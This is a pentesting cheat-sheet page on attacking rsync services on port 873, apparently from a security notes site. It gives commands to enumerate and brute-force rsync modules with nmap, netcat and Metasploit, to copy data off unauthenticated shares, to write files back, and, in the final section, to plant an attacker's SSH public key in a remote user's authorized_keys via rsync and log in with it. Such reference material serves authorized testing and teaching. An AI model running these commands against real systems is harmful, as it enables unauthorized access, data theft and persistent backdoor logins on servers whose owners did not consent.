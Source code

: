 ```yaml
---
title: Rsync Pentesting
description: Rsync is utility for efficiently transferring and synchronizing files between a computer and a storage drive and across networked computers by comparing the modification times and sizes of files. A default port is 873.
tags:
    - Network
refs:
    - https://linuxize.com/post/how-to-use-rsync-for-local-and-remote-data-transfer-and-synchronization/
date: 2023-02-06
draft: false
---
```


## Enumeration

```sh
nmap --script rsync-list-modules -p 873 <target-ip>
nmap --script rsync-brute --script-args 'rsync-brute.module=www' <target-ip>

# Banner grabbing and list shared folders
# We can execute commands (modules) that we found, after entering '@RSYNCD: <version>'.
nc -nv <target-ip> 873
@RSYNCD: 31.0
#list
raidroot
Conf
@RSYNCD: EXIT

# List sync data using rsync
rsync <target-ip>::
rsync -av --list-only rsync://<target-ip>

# List sync data using Metasploit
msf> use auxiliary/scanner/rsync/modules_list
```

When we found the shared folder, check if we can connect without authentication.  
Assume that we found the “shares” folder.

```sh
# Netcat
nc -nv <target-ip> 873
RSYNCD: 31.0
shares
RSYNCD: OK

# Rsync
rsync <target-ip>::shares
rsync -av --list-only rsync://<target-ip>:873/shares
```

### Check Config File

```sh
find / -name "rsyncd.conf" 2>/dev/null
cat /path/to/rsyncd.conf
```

<br />

## Sync Data

After gathering modules (shared folders), we can sync it with our local folder.

### From Remote to Local

We can sync a remote folder with a local folder.

```bash
# -a: Arvhice
# -v: Verbose
rsync -av <remote-ip>::<src_dir> <dest_dir>

# e.g. Assume we found the "share" folder with rsync enumeration.
mkdir test_shared
rsync -av <remote-ip>::share test_shared
rsync -av rsync://<remote-ip>:873/share test_shared
```

If we want to update sync data, modify files in the shared folder then rsync back with “From Local to Remote”.

### From Local to Remote

We can sync our local folder with a remote folder.

```bash
# -a: Arvhice
# -v: Verbose
rsync -av <src_dir> <remote-ip>::<dest_dir>

# e.g. Assume we found the "share" folder with rsync enumeration.
rsync -av test_shared <remote-ip>::share
rsync -av test_shared rsync://<remote-ip>:873/share
```

<br />

## SSH Key Syncing and SSH Login

### 1. Generate a SSH key in local machine
    
Copy the content of the public key to the authorized_keys.

```sh
ssh-keygen -f testkey
cat testkey.pub > authorized_keys
```

### 2. Sync the authorized_keys with the remote .ssh directory

```sh
rsync authorized_keys rsync://<remote-user>@<remote-ip>:873/<home_user>/.ssh
```

### 3. SSH login with the generated private key

```sh
ssh <remote-home-user>@<remote-ip> -i testkey
```
